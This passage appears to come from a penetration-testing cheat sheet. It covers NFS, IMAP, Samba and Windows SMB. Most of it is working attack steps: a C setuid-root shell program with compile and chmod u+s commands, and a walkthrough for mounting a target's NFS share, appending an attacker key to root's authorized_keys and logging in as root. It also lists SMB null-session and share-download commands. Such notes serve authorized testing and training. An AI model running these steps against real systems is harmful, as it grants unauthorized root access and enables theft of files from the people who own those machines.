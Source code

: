 ```c
# generic C exploit
#include <stdio.h>
#include <unistd.h>
int main(void)
{
setuid(0);
setgid(0);
system("/bin/bash");
}
gcc exploit.c -m32 -o exploit
```

```bash
$ cp /root/Desktop/x /tmp/mymount/
$ chmod u+s exploit
```

Attack scenario: replace target SSH keys with your own
```bash
$ mkdir -p /root/.ssh
$ cd /root/.ssh/
$ ssh-keygen -t rsa -b 4096
Enter file in which to save the key (/root/.ssh/id_rsa): hacker_rsa
Enter passphrase (empty for no passphrase): Just Press Enter
Enter same passphrase again: Just Press Enter
$ mount -t nfs 192.168.1.112:/ /mnt -o nolock
$ cd /mnt/root/.ssh
$ cp /root/.ssh/hacker_rsa.pub /mnt/root/.ssh/
$ cat hacker_rsa.pub >> authorized_keys                     # add your public key to authorized_keys
$ ssh -i /root/.ssh/hacker_rsa root@192.168.1.112           # SSH to target using your private key
```

### IMAP

Pentesting IMAP: https://book.hacktricks.xyz/pentesting/pentesting-imap

### Samba (LINUX SMB) [139 TCP]

Check Samba service version.
* Samba <2.2.8 versions are vulnerable to RCE.
* Samba 3.5.11/3.6.3 versions are vulnerable to RCE.


### SMB (WINDOWS SMB) [139, 445 TCP]

Enumerate SMB
* Look for exploitable services.
* Look for custom directories/files that were not discoverable via. brute-force.
```bash
$ nmblookup -A [target]
$ smbclient -L //[target]   // null session
$ enum4linux [target]       // null session
$ nbtscan [target]

$ smbclient --no-pass -L //10.11.1.31         # list shares
$ smbclient --no-pass \\\\[target]\\[share]   # connect to a share

$ smbmap -u "guest" -R [share] -H 10.11.1.31  # recursively list files in a folder
$ smbget -R smb://[target]/share                # recursively get files from target share/dir
```
